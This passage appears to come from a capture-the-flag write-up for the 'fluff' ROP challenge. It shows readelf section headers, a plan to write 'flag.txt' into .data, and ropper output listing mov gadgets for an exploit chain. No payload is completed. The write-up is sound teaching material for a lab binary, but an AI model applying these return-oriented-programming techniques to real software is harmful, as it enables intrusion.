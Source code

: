 ```
  [ 9] .rela.dyn         RELA             0000000000400470  00000470
       0000000000000030  0000000000000018   A       5     0     8
  [10] .rela.plt         RELA             00000000004004a0  000004a0
       0000000000000030  0000000000000018  AI       5    22     8
  [11] .init             PROGBITS         00000000004004d0  000004d0
       0000000000000017  0000000000000000  AX       0     0     4
  [12] .plt              PROGBITS         00000000004004f0  000004f0
       0000000000000030  0000000000000010  AX       0     0     16
  [13] .text             PROGBITS         0000000000400520  00000520
       0000000000000192  0000000000000000  AX       0     0     16
  [14] .fini             PROGBITS         00000000004006b4  000006b4
       0000000000000009  0000000000000000  AX       0     0     4
  [15] .rodata           PROGBITS         00000000004006c0  000006c0
       0000000000000010  0000000000000000   A       0     0     4
  [16] .eh_frame_hdr     PROGBITS         00000000004006d0  000006d0
       0000000000000044  0000000000000000   A       0     0     4
  [17] .eh_frame         PROGBITS         0000000000400718  00000718
       0000000000000120  0000000000000000   A       0     0     8
  [18] .init_array       INIT_ARRAY       0000000000600df0  00000df0
       0000000000000008  0000000000000008  WA       0     0     8
  [19] .fini_array       FINI_ARRAY       0000000000600df8  00000df8
       0000000000000008  0000000000000008  WA       0     0     8
  [20] .dynamic          DYNAMIC          0000000000600e00  00000e00
       00000000000001f0  0000000000000010  WA       6     0     8
  [21] .got              PROGBITS         0000000000600ff0  00000ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [22] .got.plt          PROGBITS         0000000000601000  00001000
       0000000000000028  0000000000000008  WA       0     0     8
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
  [25] .comment          PROGBITS         0000000000000000  00001038
       0000000000000029  0000000000000001  MS       0     0     1
  [26] .symtab           SYMTAB           0000000000000000  00001068
       0000000000000618  0000000000000018          27    46     8
  [27] .strtab           STRTAB           0000000000000000  00001680
       00000000000001fb  0000000000000000           0     0     1
  [28] .shstrtab         STRTAB           0000000000000000  0000187b
       0000000000000103  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
```

So we know we need to write "flag.txt" to .data, but what ROP gadgets can we use to achieve that? We need to find `mov` gadgets that work with memory address (`[reg]` notation), ideally. First let's see what `mov` gadgets we get to work with at all.
`ropper -f fluff --search 'mov'`:
```
[INFO] File: fluff
0x00000000004005e2: mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret;
0x0000000000400606: mov dword ptr [rbp + 0x48], edx; mov ebp, esp; call 0x500; mov eax, 0; pop rbp; ret;
0x0000000000400610: mov eax, 0; pop rbp; ret;
0x00000000004004d5: mov eax, dword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax;
0x00000000004004d5: mov eax, dword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax; add rsp, 8; ret;
0x0000000000400609: mov ebp, esp; call 0x500; mov eax, 0; pop rbp; ret;
0x00000000004005db: mov ebp, esp; call 0x560; mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret;
0x0000000000400619: mov ebp, esp; mov edi, 0x4006c4; call 0x510; nop; pop rbp; ret;
0x000000000040061b: mov edi, 0x4006c4; call 0x510; nop; pop rbp; ret;
```